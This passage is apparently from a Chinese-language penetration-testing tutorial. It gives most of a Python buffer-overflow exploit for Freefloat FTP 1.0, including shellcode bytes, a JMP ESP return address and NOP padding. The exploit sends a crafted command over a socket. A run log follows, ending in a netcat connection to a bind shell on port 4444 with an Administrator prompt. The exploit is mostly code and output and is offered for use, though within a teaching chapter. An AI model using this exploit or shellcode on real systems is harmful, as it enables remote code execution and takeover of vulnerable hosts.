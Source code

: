 ```
    "\x63\x4d\xe7\x79\x74\xb2\xd2\x3e\xea\x4d\xdc\x3e\x22\x8a"
    "\x88\x6e\x5c\x3b\xb0\xe4\x9c\xc4\x65\xaa\xcc\x6a\xd5\x0b"
    "\xbd\xca\x85\xe3\xd7\xc4\xfa\x14\xd8\x0e\x8d\x12\x16\x6a"
    "\xde\xf4\x5b\x8c\xf1\x58\xd5\x6a\x9b\x70\xb3\x25\x33\xb3"
    "\xe0\xfd\xa4\xcc\xc2\x51\x7d\x5b\x5a\xbc\xb9\x64\x5b\xea"
    "\xea\xc9\xf3\x7d\x78\x02\xc0\x9c\x7f\x0f\x60\xd6\xb8\xd8"
    "\xfa\x86\x0b\x78\xfa\x82\xfb\x19\x69\x49\xfb\x54\x92\xc6"
    "\xac\x31\x64\x1f\x38\xac\xdf\x89\x5e\x2d\xb9\xf2\xda\xea"
    "\x7a\xfc\xe3\x7f\xc6\xda\xf3\xb9\xc7\x66\xa7\x15\x9e\x30"
    "\x11\xd0\x48\xf3\xcb\x8a\x27\x5d\x9b\x4b\x04\x5e\xdd\x53"
    "\x41\x28\x01\xe5\x3c\x6d\x3e\xca\xa8\x79\x47\x36\x49\x85"
    "\x92\xf2\x79\xcc\xbe\x53\x12\x89\x2b\xe6\x7f\x2a\x86\x25"
    "\x86\xa9\x22\xd6\x7d\xb1\x47\xd3\x3a\x75\xb4\xa9\x53\x10"
    "\xba\x1e\x53\x31")
#7C874413 FFE4 JMP ESP kernel32.dll
ret = struct.pack('&lt;L', 0x7C874413)
padding = "\x90" * 150
crash = "\x41" * 246 + ret + padding + shellcode
print "\
    [*] Freefloat FTP 1.0 Any Non Implemented Command Buffer Overflow\n\
    [*] Author: Craig Freyman (@cd1zz)\n\
    [*] Connecting to "+target
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((target, 21))
except:
    print("[-] Connection to "+target+" failed!")
    sys.exit(0)
print("[*] Sending " + 'len(crash)' + " " + command +" byte crash...")
s.send("USER anonymous\r\n")
s.recv(1024)
s.send("PASS \r\n")
s.recv(1024)
s.send(command +" " + crash + "\r\n")
time.sleep(4) 
```

下载并复制一个 FreeFloat FTP 到 Windows XP SP2 或者 Windows XP SP3 的电脑上之后，我们可以测试 Craig Freyman 的 exploit。注意，他用的 shellcode 是绑定了 TCP 端口 4444 的脆弱的目标。所以我们可以运行我们的 exploit 脚本或者`netcat`连接到目标主机的 4444 端口。如果一切都成功了，现在我们已经获取了目标主机的命令行提示。

```
attacker$ python freefloat2-overflow.py 192.168.1.37 PWND
[*] Freefloat FTP 1.0 Any Non Implemented Command Buffer Overflow
[*] Author: Craig Freyman (@cd1zz)
[*] Connecting to 192.168.1.37
[*] Sending 768 PWND byte crash...
attacker$ nc 192.168.1.37 4444
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop\&gt; 
```

## 本章总结

恭喜你！在我们的渗透测试中我们可以使用我们自己编写的工具。我们通过编写我们自己的端口扫描器开始，然后审查 SSH，FTP，SMB 协议的攻击方法，最后我们用 Python 构建了我们自己的 0day exploit。

